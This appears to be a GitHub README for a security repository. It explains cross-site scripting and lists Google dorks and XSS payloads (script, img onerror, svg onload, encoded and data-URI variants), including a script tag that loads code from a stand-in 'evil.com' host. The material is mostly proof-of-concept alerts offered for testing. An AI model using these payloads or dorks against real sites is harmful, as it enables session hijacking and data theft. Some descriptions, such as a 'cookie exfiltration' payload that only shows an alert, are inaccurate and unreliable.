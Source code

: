 # Cross-Site Scripting (XSS) Dorks Repository

![Cross-Site Scripting](https://img.shields.io/badge/Cross--Site%20Scripting-red)

Welcome to the Cross-Site Scripting (XSS) Dorks repository! This repository contains a collection of XSS dorks and an explanation of what XSS is, along with advanced examples of XSS dorks.

## Table of Contents
- [What is Cross-Site Scripting (XSS)?](#what-is-cross-site-scripting-xss)
- [Examples of Cross-Site Scripting (XSS) Dorks](#examples-of-cross-site-scripting-xss-dorks)
- [Understanding XSS](#understanding-xss)
- [Advanced XSS Concepts](#advanced-xss-concepts)
- [Exploring the GDorks Main Repository](#exploring-the-gdorks-main-repository)
- [How to Use This Repository](#how-to-use-this-repository)
- [Contributing](#contributing)


## What is Cross-Site Scripting (XSS)?

Cross-Site Scripting (XSS) is a security vulnerability found in web applications that allows attackers to inject malicious scripts into web pages viewed by other users. These scripts execute within the browser, compromising user sessions, stealing data, or redirecting users to malicious sites.

## Examples of Cross-Site Scripting (XSS) Dorks

Here are advanced examples of Cross-Site Scripting (XSS) dorks that illustrate various attack vectors:

1. **<img> Tag XSS Dork**: This dork can be used to identify websites vulnerable to XSS using the `<img>` tag.

   ```
   inurl:/profile.php?username=<img src="javascript:alert('XSS')" />
   ```

2. **Event Handler XSS Dork**: Identifies websites vulnerable to XSS through event handler attributes.

   ```
   inurl:/news.php?id=1" onmouseover="alert('XSS')"--
   ```

3. **Script Injection through Input Fields**: Detects websites susceptible to XSS via input fields.

   ```
   inurl:/search?query=<script>alert('XSS')</script>
   ```

## Comprehensive Cross-Site Scripting (XSS) Payloads

XSS payloads come in various forms and contexts, allowing for diverse exploitation scenarios. Below are examples of XSS payloads in different formats, contexts, and encodings, enabling the demonstration and testing of XSS vulnerabilities:

1. **Basic Alert Payload:**

   ```javascript
   <script>alert('XSS')</script>
   ```

2. **Image Source Payload:**

   ```javascript
   <img src="javascript:alert('XSS')" />
   ```

3. **Input Field Payload:**

   ```javascript
   <input type="text" value="<script>alert('XSS')</script>" />
   ```

4. **Event Handler Payload:**

   ```javascript
   <div onmouseover="alert('XSS')">Mouse over me</div>
   ```

5. **Encoded Payloads:**

   - Basic Alert Payload encoded as URL: `%3Cscript%3Ealert('XSS')%3C%2Fscript%3E`
   - Base64 encoded Payload: `PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4=`

6. **SVG-based Payloads:**

   ```xml
   <svg onload="alert('XSS')" />
   ```

   ```xml
   <svg><script>alert('XSS')</script></svg>
   ```

7. **URL Payloads:**

   - URL payload as a query parameter: `http://example.com/?name=<script>alert('XSS')</script>`

8. **Image Payload with Invalid Source:**

   ```javascript
   <img src="invalid" onerror="alert('XSS')" />
   ```

9. **Data URI Payload:**

   ```html
   <a href="data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4=">Click me</a>
   ```

10. **DOM-based Payloads:**

    - Using document.cookie to exfiltrate cookies: `';alert(String.fromCharCode(88,83,83))//'`
    - Using location.href to exfiltrate the URL: `';alert(document.location)//`
   
11. **HTML Event Payloads:**

    - XSS via onerror attribute: `<img src="test" onerror="alert('XSS')" />`
    - XSS via onfocus attribute: `<input type="text" onfocus="alert('XSS')" />`
    - XSS via onload attribute: `<body onload="alert('XSS')" />`

12. **Script Tag Payloads:**

    - Embedding scripts as part of the content: `<script>alert('XSS')</script>`
    - Executing scripts from the URL parameter: `<script src="http://evil.com/malicious.js"></script>`

Feel free to use these payloads to test for XSS vulnerabilities in web applications. Always ensure you have proper authorization and consent before performing any security testing.

Keep in mind that these examples are for educational purposes, and using them for unauthorized testing or exploitation is strictly prohibited.

## Understanding XSS
XSS vulnerabilities can have severe implications, including data theft, session hijacking, and unauthorized access. Understanding the different types of XSS and employing secure coding practices can help prevent such vulnerabilities.

## Advanced XSS Concepts

Advanced XSS involves bypassing filters, utilizing different encoding techniques, and exploiting client-side vulnerabilities. Techniques include DOM-based XSS, circumventing Content Security Policy (CSP), and using JavaScript obfuscation to evade detection.

## Exploring the GDorks Main Repository

The [GDorks repository](https://github.com/Ishanoshada/GDorks/) is a rich resource housing an extensive collection of XSS dorks, categorized folders, and comprehensive documentation covering various XSS attack vectors and methods. It's an invaluable resource for learning and protecting against XSS vulnerabilities.

## How to Use This Repository

This repository is organized into folders, each containing specific XSS dorks and related information. Users can browse through the folders to explore XSS dorks of interest.

To contribute to this repository, follow the steps outlined in the [Contributing](#contributing) section.

## Contributing

Contributions to this repository are welcome! If you have additional XSS dorks, examples, or documentation to share, please follow these steps:

1. Fork the repository.
2. Create a new branch with a descriptive name.
3. Add your XSS dorks or other content.
4. Submit a pull request.

Your contributions will help make this repository more comprehensive and informative for the community.
